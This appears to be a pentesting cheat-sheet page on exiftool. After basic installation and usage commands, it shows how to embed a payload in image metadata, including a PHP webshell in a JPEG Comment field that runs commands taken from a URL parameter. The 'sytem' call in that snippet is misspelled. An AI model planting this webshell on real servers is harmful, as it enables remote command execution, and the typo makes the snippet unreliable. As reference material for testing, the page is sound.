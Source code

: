 # [exiftool](https://exiftool.org/)

> Command-line tool for reading a file's Exif data.

---

## Installation

On Linux distributions that use Aptitude:

```bash
sudo apt install libimage-exiftool-perl
```

---

## View a File's Exif Data

```bash
exiftool $FILE_PATH
```

---

## Embed a Payload within an Image's Metadata

```bash
exiftool -Comment="$PAYLOAD;" img.jpg
```

Example PHAR/JPEG webshell polyglot:

```bash
exiftool -Comment="<?php echo 'OUTPUT-BEGIN:'; echo sytem($_GET['cmd']); echo ':OUTPUT-END'; __halt_compiler();" img.jpg
```
